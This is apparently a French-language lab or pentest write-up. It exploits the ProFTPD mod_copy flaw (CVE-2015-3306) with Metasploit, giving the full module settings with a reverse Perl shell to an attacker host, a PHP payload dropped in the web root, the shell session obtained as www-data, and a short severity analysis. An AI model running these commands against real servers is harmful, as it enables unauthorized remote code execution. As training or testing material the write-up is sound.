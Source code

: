 ```msf
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 192.168.1.55
set SITEPATH /var/www/html
set PAYLOAD cmd/unix/reverse_perl
set LHOST 192.168.1.30
set LPORT 4444
run
```

![alt text](image-24.png)

📌 Résultat :  
- Upload d’un payload PHP malveillant dans `/var/www/html/odiel1.php`.  
- Exécution du payload → **reverse shell obtenu**.

##### Étape 4 – Session obtenue
Shell interactif établi :

```bash
whoami
www-data
ls -la
```

Le shell permettait d’exécuter des commandes avec les droits de l’utilisateur **www-data**.

#### 📌 Analyse
- Vulnérabilité : **ProFTPD mod_copy (CVE-2015-3306)**.  
- Impact : un attaquant distant peut lire ou écrire des fichiers arbitraires → exécution de code à distance possible.  
- Gravité : **Critique** (accès initial sur le serveur).  
